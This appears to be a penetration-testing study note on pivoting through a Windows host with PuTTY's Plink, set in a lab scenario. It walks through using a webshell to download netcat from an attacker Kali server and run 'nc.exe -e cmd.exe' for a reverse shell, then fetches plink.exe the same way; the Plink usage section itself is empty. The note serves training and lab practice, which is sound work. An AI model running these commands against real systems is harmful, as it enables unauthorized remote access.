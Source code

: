 
# Using Plink on Windows
In some cases, network admins don't want to have OpenSSH installed on their [Windows](../../../computers/windows/README.md) hosts and they sometimes remove it. Without OpenSSH, most network admins, who still need to be able to connect to their servers, use [_PuTTY_](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html).
## PuTTY
PuTTY is a tool you can use to make various kinds of connections to systems on a local or remote network. It can be used for Console connections, [telnet](../../../networking/protocols/telnet.md), SSH, etc.. PuTTY can be used via the GUI but it *also has a command line tool* called "[_Plink_](https://tartarus.org/~simon/putty-snapshots/htmldoc/Chapter7.html)"
## Plink
According to the [Plink manual](https://tartarus.org/~simon/putty-snapshots/htmldoc/Chapter7.html), Plink has *most of the tools that OpenSSH offers*. HOWEVER, it still does not support [remote dynamic port forwarding](../SSH-tunneling/remote-dynamic-port-forwarding.md) unfortunately :(.
## Scenario
Assume the following scenario: two servers sit in the target's [DMZ](../../../networking/design-structure/DMZ.md) `CONFLUENCE01` and `MULTISERVER03`. They are both *protected by firewalls* b/w the [WAN](../../../networking/design-structure/WAN.md) and the DMZ [subnet](../../../PNPT/PEH/networking/subnetting.md), but `MULTISERVER03` has *port 80* open to the WAN. 

Assume we can get a [web-shell](../../../cybersecurity/TTPs/exploitation/web-shell.md) on `MULTISERVER03` which gives us a command line, but we can't use something like [RDP](../../../networking/protocols/RDP.md) for GUI access (because the Firewall is blocking all other connections). Assume we also have found some credentials.
### Getting a Revshell
We can access our webshell on `MULTISERVER03` by browsing to the URL `/umbraco/forms.aspx` and when we use it to run commands, they execute as the `apppool\defaultapppool` user (Windows IIS). 

We need to establish a [revshell](../../../cybersecurity/TTPs/exploitation/rev-shell.md) for better access and a more interactive shell. We can use the webshell to download `nc.exe`- the Windows version of [netcat](../../../cybersecurity/TTPs/exploitation/tools/netcat.md). To do that, we need to host the binary on our Kali machine
#### Configuring Apache2
On our Kali machine, we can use Apache2 to start a web server for hosting our netcat binary. First, we need to start the `apache2` service using `systemctl`:
```bash
kali@kali:~$ sudo systemctl start apache2
[sudo] password for kali: 

kali@kali:~$
```
Fortunately, `nc.exe` is already available to us on our Kali machine at `/usr/share/windows-resources/binaries/nc.exe`. So we can copy that into our *Apache webroot*:
```bash
kali@kali:~$ find / -name nc.exe 2>/dev/null
/usr/share/windows-resources/binaries/nc.exe

kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/
```
Now that our server is started and `nc.exe` is being serverd from the webroot, we should be able to download it from the Windows machine via `wget`:
```bash
powershell wget -Uri http://192.168.118.4/nc.exe -OutFile C:\Windows\Temp\nc.exe
```
#### Executing `nc.exe`
Now with `nc.exe` on our Windows host, we can setup a listener on our Kali machine:
```bash
kali@kali:~$ nc -nvlp 4446
listening on [any] 4446 ...
```
Now, we can execute `nc.exe` to *connect back to our listener* by giving the following command *through our webshell*:
```powershell
C:\Windows\Temp\nc.exe -e cmd.exe 192.168.118.4 4446
```
If it worked, we should see the following output on our Kali netcat listener:
```bash
...
listening on [any] 4446 ...
connect to [192.168.118.4] from (UNKNOWN) [192.168.50.64] 51889
Microsoft Windows [Version 10.0.20348.825]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```
### Downloading Plink onto `MULTISERVER03`
We can get the plink binary from our kali machine at `/usr/share/windows-resources/binaries/plink.exe`. Again, we can copy it to our Apache 2 webroot to serve it so we can then fetch it from the compromised Windows host:
```bash
kali@kali:~$ find / -name plink.exe 2>/dev/null
/usr/share/windows-resources/binaries/plink.exe

kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/
[sudo] password for kali: 

kali@kali:~$ 
```
To fetch plink, we can run the following command from our revshell (this is a [PowerShell](../../../coding/languages/powershell.md) one-liner):
```powershell
c:\windows\system32\inetsrv>powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe
powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe

c:\windows\system32\inetsrv>
```
### Using Plink


> [!Resources]
> - [_PuTTY_](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)
> - [_Plink_](https://tartarus.org/~simon/putty-snapshots/htmldoc/Chapter7.html)
> - [Plink manual](https://tartarus.org/~simon/putty-snapshots/htmldoc/Chapter7.html)